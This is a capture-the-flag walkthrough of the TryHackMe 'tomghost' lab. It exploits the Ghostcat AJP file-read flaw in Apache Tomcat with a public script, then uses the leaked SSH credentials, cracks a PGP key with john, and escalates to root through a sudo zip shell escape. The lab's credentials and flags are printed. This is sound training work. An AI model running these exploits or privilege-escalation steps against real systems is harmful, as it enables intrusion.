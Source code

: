 # tomghost

```
export IP=10.10.252.20
```

## Nmap scan
nmap -v -sC -sV -oN scans/initial $IP
```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30f
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Exploiting Ghostcat

git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487.git

Run script for this vulnerability, with ajp port 8009, read github page for more info.

```
python ajpShooter.py http://10.10.84.232:8080/ 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

```

```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```



# Task 1

ssh skyfuck@$IP 8730281lkjlkjdqlksalks

scp skyfuck@$IP:/home/skyfuck/* .

file * -> tryhackme.asc: PGP private key block

/usr/sbin/gpg2john tryhack.asc
```
File tryhackme.asc
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
```

john --wordlist=/opt/rockyou.txt  hashes_for_john.txt

pwd:alexandru

gpg --import tryhackme.asc 

gpg --decrypt credential.pgp 
```
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

ssh merlin@10.10.84.232

cat user.txt
```
THM{GhostCat_1s_so_cr4sy}
```

# Task 2

sudo -l -> GTFObins (for zip)

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

cd /root

cat root.txt
```
THM{Z1P_1S_FAKE}
```